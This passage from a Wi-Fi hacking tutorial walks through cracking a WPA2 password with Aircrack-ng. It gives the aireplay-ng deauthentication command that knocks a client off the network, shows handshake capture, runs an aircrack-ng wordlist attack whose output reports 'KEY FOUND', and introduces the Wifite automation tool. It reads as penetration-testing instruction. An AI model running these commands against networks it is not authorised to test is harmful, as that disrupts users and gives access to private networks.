 The output will show one client is connected to the BSSID.

CH  3 ][ Elapsed: 6 s ][ 2021-05-24 00:17 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 0E:B6:D2:AB:C1:C1  -45   3      106       22    0   3  360   WPA2 CCMP   PSK  Egycondor                                  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 0E:B6:D2:AB:C1:C1  80:XX:16:7E:2A:6A  -68    1e- 6e  1538        7

What we are really doing now is waiting for the device to reconnect to the network, forcing the target's AP to send a four-way Handshake, which we must capture to crack the password.

Instead of waiting for a device to connect, We're actually going to use another tool that belongs to the Aircrack suite called aireplay-ng to force the device to reconnect by sending deauth packets to the device, making it think it should reconnect to the AP.

6- Open another terminal and type this command to do the deauth operation. 

aireplay-ng -0 2 -a 0E:B6:D2:AB:C1:C1-c 80:AD:16:7E:2A:6A wlp8s0mon

 Notice on the top right of the terminal that the WPA handshake has been captured. 

CH  3 ][ Elapsed: 1 min ][ 2021-05-24 00:27 ][ WPA handshake: 0E:XX:D2:AB:C1:C1 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 0E:XX:D2:AB:C1:C1  -44 100      802      530   12   3  360   WPA2 CCMP   PSK  Egycondor

Aircrack-ng will start the password cracking process and will be able to crack it if the password is in the Worlist that you have chosen and cracking the password can take a long time depending on the size of the wordlist. 

aircrack-ng -a2 -b 0E:B6:D2:AB:C1:C1 -w /root/passwords /root/*.cap

                              Aircrack-ng 1.6 

      [00:00:00] 6/21 keys tested (125.78 k/s) 

      Time left: 0 seconds                                      33.33%

                        KEY FOUND! [ XXXXXXXXXXXXXXX ]

      Master Key     : XX 1A 0B XX E3 XX 7B 91 07 C9 71 FC XX D6 98 XX 

                       XX D8 A2 34 XX 1E FF A5 97 0E 72 XX A1 BE 50 D5 

      Transient Key  : 68 90 3F 24 XX BC 22 DF XX 6D 13 F7 AD 92 9F D1 

                       7F 0B A8 28 C0 28 C6 XX AA BA D3 96 58 E1 67 99 

                       XX EB 5B CC 7F XX B6 46 E2 AB C3 CD 9F 4B C1 10 

                       AD XX 33 FC XX 27 98 D7 XX 2E E3 93 37 00 00 00 

      EAPOL HMAC     : 6A 82 58 XX E0 6F A3 XX 07 44 XX 19 31 XX D1 9A 

#  [Wifite](https://github.com/derv82/wifite)

Another tool here is called Wifite which is an automated wireless attack tool and was designed for use with penetration testing distributions of Linux, such as [Kali Linux](http://www.kali.org/), [Pentoo](http://www.pentoo.ch/), and [BackBox](http://www.backbox.org/); any Linux distributions with wireless drivers patched for injection.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfq_p72d72nDEl-buo5N7iIU6jkipvCMcl-V7HnxwwFB_uGHlDRXEogSfrjPof8cZhgTgrGzg8m0IC6Mg_OL9ilfAd4WXMJJp3jS_zo082_XcA_RBcjls0HQk0oeudmPQSFhTkiWqCiY0d00by-BV0ttkvL?key=8adlEp2vBae7QOtt3gQUdQ)